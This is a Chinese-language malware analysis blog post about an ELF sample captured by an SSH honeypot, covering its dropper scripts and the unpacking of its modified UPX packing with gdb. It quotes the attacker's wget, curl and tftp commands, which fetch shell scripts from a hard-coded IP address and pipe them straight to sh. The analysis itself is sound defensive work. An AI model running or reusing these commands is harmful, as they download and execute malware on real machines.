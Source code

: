 ```yaml
---
title: "MalwareMustDie bakunawa-ssh™样本分析"
date: 2017-12-19
---
```


# 0x00 背景

最近还是通过ssh蜜罐捕获到样本，都是通过下载sh脚本文件并执行：

{% highlight bash %}
wget -qO - http://198.1.70.128/1sh | sh > /dev/null 2>&1 &
rm -rf /var/run/1sh; wget -c http://198.1.70.128/1sh -P /var/run && sh /var/run/1sh &
wget -qO - http://198.1.70.128/2sh | sh > /dev/null 2>&1 &
rm -rf /tmp/2sh; wget -c http://198.1.70.128/2sh -P /tmp && sh /tmp/2sh &
curl http://198.1.70.128/3sh | sh
cd /dev/shm ; rm -rf tsh ; tftp -g 127.0.0.1 -r tsh ; sh tsh &
{% endhighlight %}

虽然这里有3个脚本文件，但通过对比下载的二进制文件md5，实际上1sh脚本中也就涵盖了各个平台下的恶意样本，逐一下载后无脑执行就可以了：

![][1]

# 0x01 脱壳

在[VT](https://www.virustotal.com/#/file/9c392a3372a6c07c0e4345b09615506f88e3870d02b6541ea3fb0650cb9286b7/details)上也可以看到这是最近才发现的样本，但这些样本都会把主控端的ip地址硬编码至程序中，所以时间上是没有意义的，注意到该样本是经过UPX加壳处理的：

![][2]

其实一开始`strings -a`也可以发现疑似UPX压缩的迹象，在IDA打开后完全是瞎的，所以程序内部会先进行解压缩然后跳转执行真正的代码。首先尝试`upx -d`脱壳未果：

![][3]

这里当然是针对UPX的脱壳程序做了一下处理，要不然在稍微懂点的人面前加壳跟没加一样。探索一番后发现，MalwareMustDie团队已经[20160416分析过](http://blog.malwaremustdie.org/2016/04/mmd-0053-2016-bit-about-elfstd-irc-bot.html)相似的样本，但给出的脱壳方法也不是太详细和便捷。在[国内](https://www.pediy.com/kssd/pediy10/79061.html)也有人使用IDA远程调试然后写idc脚本去dump，然而我的IDA神一般的远程attach不上，此方法有待后续探究学习。前面的文章里有提过0x8058ac0处保存的是压缩后的数据，而且还是ELF文件开头的，那我直接gdb attach上解压缩后的程序dump内存不就好了（`dump memory test2 0x08048000 0x08056000`），机智如你：

![][4]

# 0x02 自启动接收指令

## 执行命令

样本会调用getuid函数判断root权限，然后用snprintf函数完成命令字符串的构造，最终通过system函数执行命令。

## 进程环境设置


[1]: http://ojyzyrhpd.bkt.clouddn.com/20171219/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20171219/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20171219/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20171219/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20171219/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20171219/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20171219/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20171219/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20171219/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20171219/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20171219/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20171219/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20171219/13.png
[14]: http://ojyzyrhpd.bkt.clouddn.com/20171219/14.png
[15]: http://ojyzyrhpd.bkt.clouddn.com/20171219/15.png
[16]: http://ojyzyrhpd.bkt.clouddn.com/20171219/16.png
[17]: http://ojyzyrhpd.bkt.clouddn.com/20171219/17.png
[18]: http://ojyzyrhpd.bkt.clouddn.com/20171219/18.png
[19]: http://ojyzyrhpd.bkt.clouddn.com/20171219/19.png
[20]: http://ojyzyrhpd.bkt.clouddn.com/20171219/20.png
[21]: http://ojyzyrhpd.bkt.clouddn.com/20171219/21.png
[22]: http://ojyzyrhpd.bkt.clouddn.com/20171219/22.png
[23]: http://ojyzyrhpd.bkt.clouddn.com/20171219/23.png
[24]: http://ojyzyrhpd.bkt.clouddn.com/20171219/24.png
[25]: http://ojyzyrhpd.bkt.clouddn.com/20171219/25.png
[26]: http://ojyzyrhpd.bkt.clouddn.com/20171219/26.png